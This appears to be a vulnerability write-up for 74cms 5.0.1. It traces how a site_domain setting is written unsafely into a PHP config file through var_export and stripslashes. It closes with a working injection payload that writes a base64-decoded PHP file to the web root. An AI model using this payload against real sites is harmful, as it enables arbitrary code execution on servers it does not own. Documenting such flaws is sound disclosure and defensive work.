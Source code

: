 ```php
}
```

CONF_PATH in /ThinkPHP/ThinkPHP.php Line 54: CONF_PATH.'url.php' ->  /Application/Home/Conf/url.php

```php
defined('COMMON_PATH')  or define('COMMON_PATH',    APP_PATH.'Common/'); // 应用公共目录
defined('CONF_PATH')    or define('CONF_PATH',      COMMON_PATH.'Conf/');
define('APP_PATH','./Application/');
```

**var_export()**: Quote string with slashes&Convert special characters to HTML entities -> **stripslashes**(): un-quotes a quoted string -> Convert special characters to HTML entities -> write file

```php
          file_put_contents($config_file, "<?php \nreturn " . stripslashes(var_export($config, true)) . ";", LOCK_EX);
```

/Application/Home/Conf/url.php: The code after "return array(...);" does not work, so payload is site_domain=', {your php code}),'

```php
<?php 
return array (
  'URL_MODEL' => 0,
  'URL_HTML_SUFFIX' => '.html',
  'URL_PATHINFO_DEPR' => '/',
  'URL_ROUTER_ON' => true,
  'URL_ROUTE_RULES' => 
  array (
    '/^jobfair\/(?!admin)(\w+)$/' => 'jobfair/index/:1',
    '/^mall\/(?!admin)(\w+)$/' => 'mall/index/:1',
  ),
  'QSCMS_VERSION' => '5.0.1',
  'QSCMS_RELEASE' => '2019-03-19 00:00:00',
  'SESSION_OPTIONS' => 
  array (
    'domain' => '.0.1',
    0 => 18,
    1 => '',
    'path' => 'D:\Software\phpstudy\PHPTutorial\WWW\74cms\data\session',
  ),
  'COOKIE_DOMAIN' => '.0.1',
  0 => 18,
  1 => '',
);
```



#### POC:

\<?php phpinfo();?> -> PD9waHAgcGhwaW5mbygpOz8+ 

site_domain=', file_put_contents('403.php',base64_decode('PD9waHAgcGhwaW5mbygpOz8+')),'
